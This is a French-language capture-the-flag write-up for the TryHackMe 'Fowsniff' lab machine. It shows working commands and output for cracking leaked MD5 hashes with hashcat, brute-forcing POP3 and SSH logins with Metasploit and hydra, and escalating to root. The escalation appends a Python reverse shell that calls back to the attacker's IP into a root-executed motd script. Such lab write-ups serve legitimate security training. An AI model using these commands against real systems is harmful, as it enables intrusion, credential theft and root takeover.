

# Fowsnif #

**Using nmap, scan this machine. What ports are open?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A fowsniff.thm 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-23 13:02 CEST
Nmap scan report for fowsniff.thm (10.10.184.156)
Host is up (0.034s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: RESP-CODES TOP AUTH-RESP-CODE USER SASL(PLAIN) CAPA UIDL PIPELINING
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: OK ID LITERAL+ AUTH=PLAINA0001 LOGIN-REFERRALS Pre-login ENABLE have more IMAP4rev1 SASL-IR post-login listed capabilities IDLE
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/23%OT=22%CT=1%CU=30663%PV=Y%DS=2%DC=T%G=Y%TM=60FAA1E
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=109%TI=Z%CI=I%TS=8)OPS(O1=M
OS:506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%
OS:O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%
OS:DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=
OS:%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%
OS:IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   32.71 ms 10.9.0.1
2   33.06 ms fowsniff.thm (10.10.184.156)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.82 seconds
```

On voit que les ports ouverts sont :  
Le port 22 service ssh  
Le port 80 service http  
Le port 110 service pop3  
Le port 143 service imap

**Using the information from the open ports. Look around. What can you find?**


On voit sur la page principale d'internet que le site à subit une attaque, et que l'entreprise à un compte Twitter fowsniffcorp.   

**Using Google, can you find any public information about them?**


```text
           ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!


mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e

Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!

Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!

MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P

l8r n00bz!

B1gN1nj4

-------------------------------------------------------------------------------------------------
This list is entirely fictional and is part of a Capture the Flag educational challenge.

All information contained within is invented solely for this purpose and does not correspond
to any real persons or organizations.

Any similarities to actual people or entities is purely coincidental and occurred accidentally.
```

On trouve sur le compte twitter un lien vers pastebin qui affiche les utilisateurs ainsi que leurs hash.   

**Can you decode these md5 hashes? You can even use sites like hashkiller to decode them.**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget -nv https://pastebin.com/raw/NrAqVeeX
2021-07-23 13:20:55 URL:https://pastebin.com/raw/NrAqVeeX [1678] -> "NrAqVeeX" [1]

tim@kali:~/Bureau/tryhackme/write-up$ cat NrAqVeeX | grep @ > password.txt

tim@kali:~/Bureau/tryhackme/write-up$ cut -d: -f2 password.txt > hash.txt

tim@kali:~/Bureau/tryhackme/write-up$ hashcat --quiet -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt 
90dc16d47114aa13671c697fd506cf26:scoobydoo2
4d6e42f56e127803285a0a7649b5ab11:orlando12
1dc352435fecca338acfd4be10984009:apples01
19f5af754c31f1e2651edde9250d69bb:skyler22
8a28a94a588a95b80163709ab4313aa4:mailcall
f7fd98d380735e859f8b2ffbbede5a7e:07011972
0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101

```

On trouve les différents mots de passes.   

**Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfconsole -q 
msf6 > search pop3

Matching Modules
================

   #  Name                                          Disclosure Date  Rank     Check  Description
   -  ----                                          ---------------  ----     -----  -----------
   0  auxiliary/server/capture/pop3                                  normal   No     Authentication Capture: POP3
   1  exploit/linux/pop3/cyrus_pop3d_popsubfolders  2006-05-21       normal   No     Cyrus IMAPD pop3d popsubfolders USER Buffer Overflow
   2  auxiliary/scanner/pop3/pop3_version                            normal   No     POP3 Banner Grabber
   3  auxiliary/scanner/pop3/pop3_login                              normal   No     POP3 Login Utility
   4  exploit/windows/pop3/seattlelab_pass          2003-05-07       great    No     Seattle Lab Mail 5.5 POP3 Buffer Overflow
   5  post/windows/gather/credentials/outlook                        normal   No     Windows Gather Microsoft Outlook Saved Password Extraction
   6  exploit/windows/smtp/ypops_overflow1          2004-09-27       average  Yes    YPOPS 0.6 Buffer Overflow


Interact with a module by name or index. For example info 6, use 6 or use exploit/windows/smtp/ypops_overflow1
sf6 > use 3
msf6 auxiliary(scanner/pop3/pop3_login) > options

Module options (auxiliary/scanner/pop3/pop3_login):

   Name              Current Setting                                                    Required  Description
   ----              ---------------                                                    --------  -----------
   BLANK_PASSWORDS   false                                                              no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                  yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                              no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                              no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                              no        Add all users in the current database to the list
   PASSWORD                                                                             no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  no        The file that contains a list of probable passwords.
   RHOSTS                                                                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             110                                                                yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                                              yes       Stop guessing when a credential works for a host
   THREADS           1                                                                  yes       The number of concurrent threads (max one per host)
   USERNAME                                                                             no        A specific username to authenticate as
   USERPASS_FILE                                                                        no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                              no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/unix_users.txt      no        The file that contains a list of probable users accounts.
   VERBOSE           true                                                               yes       Whether to print output for all attempts
```

On s'aperçoit qu'il faut le noms et les mots de passes dans des fichiers texte.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cut -d@ -f1 password.txt > user.txt

tim@kali:~/Bureau/tryhackme/write-up$ hashcat --show hash.txt | cut -d: -f2 > pass.txt
```

On a créé les deux fichiers.   


```bash
msf6 auxiliary(scanner/pop3/pop3_login) > set PASS_FILE ./pass.txt
PASS_FILE => ./pass.txt
msf6 auxiliary(scanner/pop3/pop3_login) > set USER_FILE ./user.txt
USER_FILE => ./user.txt
msf6 auxiliary(scanner/pop3/pop3_login) > set RHOSTS fowsniff.thm
RHOSTS => fowsniff.thm
msf6 auxiliary(scanner/pop3/pop3_login) > set VERBOSE false 
VERBOSE => false
msf6 auxiliary(scanner/pop3/pop3_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/pop3/pop3_login) > run
+] 10.10.184.156:110     - 10.10.184.156:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
[*] fowsniff.thm:110      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

Avec la méthode brute force on trouve le couple identifiant :  
Utilisateur : seina  
Mot de passe : scoobydoo2 

**Can you connect to the pop3 service with her credentials? What email information can you gather?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc fowsniff.thm 110 
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
list
+OK 2 messages:
1 1622
2 1280
.
retr 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
	id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone


.
```

On a ici un mot de passe temporaire.  

**Looking through her emails, what was a temporary password set for her?**

Le mat temporaire est S1ck3nBluff+secureshell  

**In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -L user.txt -p S1ck3nBluff+secureshell ssh://fowsniff.thm
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-23 14:24:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:9/p:1), ~1 try per task
[DATA] attacking ssh://fowsniff.thm:22/
[22][ssh] host: fowsniff.thm   login: baksteen   password: S1ck3nBluff+secureshell
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-23 14:24:45
```

En regardante le mail on voit que le mot passe temporaire a été envoyer à tout le monde.  
Avec hydra on test le mot de passe avec tous les noms d'utilisateurs.  

Utilisateur     : baksteen  
Mot de passe    : S1ck3nBluff+secureshell 

**Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh baksteen@fowsniff.thm
baksteen@fowsniff.thm's password: 

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
baksteen@fowsniff:~$ groups
users baksteen

baksteen@fowsniff:~$ find / -group users -type f 2>/dev/null
/opt/cube/cube.sh
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log
/home/baksteen/Maildir/new/1520967067.V801I23764M196461.fowsniff
/home/baksteen/Maildir/dovecot-uidlist
/home/baksteen/Maildir/dovecot-uidvalidity.5aa21fac
/home/baksteen/.viminfo
/home/baksteen/.bash_history
/home/baksteen/.lesshsQ
/home/baksteen/.bash_logout
/home/baksteen/term.txt
/home/baksteen/.profile
/home/baksteen/.bashrc

baksteen@fowsniff:~$ man groups
baksteen@fowsniff:~$ /opt/cube/cube.sh 

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions
```

Le fichier cube.sh est interéssant il peut être exécuter par le groups users.  

**Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?**

```bash
baksteen@fowsniff:/$ grep -r "cube.sh" 2>/dev/null
home/baksteen/.viminfo:> /opt/cube/cube.sh
home/baksteen/.viminfo:> /etc/update-motd.d/cube.sh
var/lib/apt/lists/us.archive.ubuntu.com_ubuntu_dists_xenial_universe_i18n_Translation-en: institutions. The CafeOBJ cube shows the structure of the various
etc/update-motd.d/00-header:sh /opt/cube/cube.sh

baksteen@fowsniff:/$ ls -al /etc/update-motd.d/00-header 
-rwxr-xr-x 1 root root 1248 Mar 11  2018 /etc/update-motd.d/00-header
```

On voit le fichier cube.sh est exécuté avec les droit ROOT.   

```bash
baksteen@fowsniff:/$ echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.9.228.66\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" >> /opt/cube/cube.sh 
```
On inclut un reverse shell dans cube.sh avec la bonne IP.   

**Start a netcat listener (nc -lvp 1234) and then re-login to the SSH service. You will then receive a reverse shell on your netcat session as root!**


```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

Sur une autre terminal on écoute.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh baksteen@fowsniff.thm
baksteen@fowsniff.thm's password: 

tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.184.156] 59188
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

On relancant un shell on obtient on exécute le reverse shell.  
Sur le port ou on écoute on obptient un shell avec les droits root.  


